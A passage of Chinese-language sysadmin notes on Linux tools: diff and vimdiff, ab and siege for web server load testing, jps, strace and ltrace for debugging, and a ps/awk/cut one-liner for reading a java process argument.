
----
diff file1 file2 -y

使用 diff -r tree1 tree2 | diffstat 查看变更的统计数据
----

==== vimdiff - edit two, three or four versions of a file with Vim and show differences

----
vimdiff 用于比对并编辑文件
----





== 服务程序

=== 压测

----
ab 工具（Apache 中自带）可以简单粗暴地检查 web 服务器的性能。对于更复杂的负载测试，使用 siege
----

=== java

Jps

=== 程序试错检查

----
了解 strace 和 ltrace。这俩工具在你的程序运行失败、挂起甚至崩溃，而你却不知道为什么或你想对性能有个总体的认识的时候是非常有用的。注意 profile 参数（-c）和附加到一个运行的进程参数 （-p）

strace：调试系统调用
strace 经常被认为是程序员的调试工具，但它的功用不仅仅用来调试。它可以截获和记录进程调用系统的情况。因而，它是一个实用的诊断、教学和调试工具。比如说，你可以使用strace来查出某个程序在启动时实际上使用哪个配置文件。

不过strace的确有一个缺陷。它在检查某个进程时，该进程的性能会一落千丈。因而，只有在我已经有极其充分的理由认为某个程序引起问题的情况下，才使用strace
----



== 常用命令

----
获取java_server_name的第18列值，等号分隔。尤其适合java -jar多个参数的场景
ps -ef|grep java_server_name|awk '{print $18}'|cut -d = -f 2

----